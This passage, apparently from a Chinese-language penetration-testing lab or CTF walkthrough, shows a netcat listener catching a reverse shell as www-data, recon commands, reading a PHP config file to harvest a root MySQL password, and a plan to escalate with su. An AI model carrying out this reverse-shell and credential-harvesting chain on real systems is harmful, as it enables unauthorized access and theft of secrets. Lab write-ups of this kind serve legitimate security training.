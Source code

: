 -   在本地监听并等待连接 --> 获得初始shell

-   >   sudo nc -nvlp 1234

-   ```shell
    └─$ sudo nc -nvlp 1234                                                
    [sudo] password for kali: 
    listening on [any] 1234 ...
    connect to [10.10.10.129] from (UNKNOWN) [10.10.10.100] 47940
    bash: no job control in this shell
    www-data@web:/var/www/blog/images$ whoami
    whoami
    www-data
    www-data@web:/var/www/blog/images$ ip a
    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:34:b6:a8 brd ff:ff:ff:ff:ff:ff
        inet 10.10.10.100/24 brd 10.10.10.255 scope global eth0
        inet6 fe80::20c:29ff:fe34:b6a8/64 scope link 
           valid_lft forever preferred_lft forever
    www-data@web:/var/www/blog/images$ 
    ```

-   找到`/var`文件夹下的`mysqli_connect.php`文件进行查看后获得root密码

-   ```shell
    www-data@web:/var$ cat mysqli_connect.php
    cat mysqli_connect.php
    <?php # Script 8.2 - mysqli_connect.php
    
    // This file contains the database access information.
    // This file also establishes a connection to MySQL
    // and selects the database.
    
    // Set the database access information as constants:
    
    DEFINE ('DB_USER', 'root');
    DEFINE ('DB_PASSWORD', 'root@ISIntS');
    DEFINE ('DB_HOST', 'localhost');
    DEFINE ('DB_NAME', 'ch16');
    
    // Make the connection:
    
    $dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );
    
    ?>www-data@web:/var$ 
    
    ```

-   尝试使用su进行提权操作
